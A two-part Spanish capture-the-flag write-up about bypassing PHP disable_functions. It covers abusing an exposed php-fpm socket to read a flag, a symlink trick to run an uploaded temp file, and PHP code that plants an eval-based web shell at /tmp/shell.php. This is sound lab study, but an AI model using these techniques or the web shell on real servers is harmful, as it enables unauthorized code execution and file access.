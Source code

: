 # CTF FWHIBBIT - Impossible is nothing - Indonesia

En esta prueba nos encontramos con un editor e interprete de código PHP. En la descripción nos indican que la flag se encuentra en */tmp/flag.php*

![](img/1.png)

Si probamos a ejecutar un comando utilizando system nos salta una advertencia indicando que esta función esta deshabilitada.

![](img/2-system-disabled.png)

La función *file_get_contents* y otras funciones de acceso a ficheros también están deshabilitadas, sin embargo, la función readfile no funciona al el wrapper 'file://' esta deshabilitado.

![](img/3-wrapper-disabled.png)

En su momento también conseguí encontrar alguna función habilitada que permitiera usar los wrappers *http* *ftp* o *php*. Aunque no fue posible realizar ninguna acción al estar deshabilitados.

La función *symlink* esta habilitada, fue posible crear un enlace simbólico del fichero con el flag, pero no leerlo.

Para obtener esta información no iba a ciegas, había utilizado en un primer momento phpinfo para ver que funciones estaban deshabilitadas, ademas de rutas, versiones y otra información jugosa.

![](img/4-phpinfo.png)

![](img/disable-functions.png)

También se me ocurrió utilizar funciones de FTP o MySQL para conectar a otro servicio y acceder al flag, pero tampoco estaban instaladas las librerías. Así que utilicé la función *fsockopen* para realizar un escaneo de puertos abiertos en la maquina con la esperanza de tener un servicio vulnerable esperándome.

![](img/portscan.png)

Además de encontrar abierto el puerto de la prueba y de otras pruebas, había un servicio SSH en el puerto 2221. Aunque parecía interesante, asumí que no era parte de la prueba y seguí por otro camino.

Leyendo en infinidad de sitios, hablaban de la posibilidad de conectarse al cgi de php en el puerto 9000, pero en este caso no se encontraba abierto. También existía la posibilidad de conectarse a este mismo servicio a través de un socket de unix que por defecto debería encontrarse en la ruta */var/run/php-fpm.sock*. Pero no fue así.

Después de probar diferentes variaciones que aparecían en diferentes sitios como poner la versión: php5-fpm.sock, utilizar el directorio: */var/run/php/* o */run/*, etc… Después de bastantes intentos, recordé que phpinfo nos indicaba claramente que se trata de la versión 7 de php, así que buscando un poco mas encontré que la ruta por defecto para el socket se encontraba en */run/php/php7.0-fpm.sock*.

![](img/6-socket.jpg)

Una vez encontrado el socket, solo nos queda comunicarnos con el y pedirle amablemente que nos devuelva el archivo */tmp/flag.php*

Para ello utilicé un script en Ruby que nos devuelve la llamada en formato binario. <https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb>

![](img/7-ruby-script.png)

Construimos el código php con la llamada binaria y obtenemos la flag.

![](img/8-flag.png)

---

# CTF FWHIBBIT – Impossible is nothing – Indonesia – Parte 2

En esta segunda parte explicaré el proceso que he seguido para intentar, sin exito, evadir las protecciones de la prueba y hacerme con el control de la maquina, o al menos del docker donde se encuentra la prueba.

En el ultimo paso de la solución a la prueba se consiguió ejecutar el archivo PHP en el que se encontraba la flag.

Por tanto, nuestro primer objetivo será ejecutar nuestro propio código, pero a través del CGI.

Para ello voy a simplificar el proceso utilizando directamente la librería/clase [PHP-FastCGI-Client](https://github.com/adoy/PHP-FastCGI-Client) para comunicarme con el socket de PHP/CGI.

![](img/10-class.png)

Modificando la petición es posible llamar a *ajax.php* para ejecutar cualquier código PHP que se encuentre en la variable *phpcode*.

![](img/11-ajax.png)

De esta forma tampoco es posible evadir las protecciones para ejecutar funciones prohibidas o habilitar el wrapper *file*.

![](img/12-wrappers-fail.png)

Mi siguiente intento fue el de subir mi propio archivo PHP y ejecutarlo, para ello podia utilizar la función *tmpfile* para crear un fichero de nombre aleatorio en el directorio */tmp/* y *fwrite* para escribir en el. Al no tener este archivo la extension *.php*, por seguridad, no es posible ejecutar el archivo.

``php
// Crear archivo temporal
$data = '<?php phpinfo(); ?>';
$tmpHandle = tmpfile();
$metaDatas = stream_get_meta_data($tmpHandle);
$tmpFilename = $metaDatas['uri'];
echo $tmpFilename;
fwrite($tmpHandle, $data);
```

![](img/13-tmpfile-fail.png)

Para evadir esta protección solo es necesario modificar la extensión del archivo, o mucho mas rápido, crear un enlace simbólico con la extensión php.

```php
$newphp = '/tmp/pwned.php';
symlink($tmpFilename, $newphp);
```

![](img/14-symlink-phpinfo.png)

De esta forma ya tenemos habilitados todos los wrappers y hemos conseguido evadir una de las protecciones.

![](img/15-wrappers-enabled.png)

Para simplificar el proceso y no tener que crear un archivo nuevo cada vez en el directorio */tmp/*, se sube un archivo similar a *ajax.php* con la opción de ejecutar código PHP proveniente de una variable.

```php
$data = '
<pre>
<?php
    $cod = \'<pre><?php eval(@$_POST["phpcode"]); ?></pre>\';
    var_dump(file_put_contents(\'/tmp/shell.php\', $cod));
    readfile(\'/tmp/shell.php\');
?>
</pre>
';
```

![](img/16-shell.png)

A partir de aquí se puede seguir investigando cómodamente, tan solo cambiando el código a ejecutar en la variable *$code*.

Podemos usar *scandir* para listar los archivos de un directorio.

![](img/scandir.png)

![](img/scandir-html.png)

También es posible usar *readfile* para leer archivos de configuración del sistema, o el mismo código fuente de la prueba.

![](img/17-ajax-code.png)

Finalmente no fue posible conseguir ejecución de comandos en la maquina evadiendo la protección de funciones deshabilitadas, ni siquiera utilizando un hook con *LD_PRELOAD* como se explica en el [blog de 0verl0ad](http://www.0verl0ad.net/2016/03/bypassing-disablefunctions-y.html) al estar la función *mail* deshabilitada.
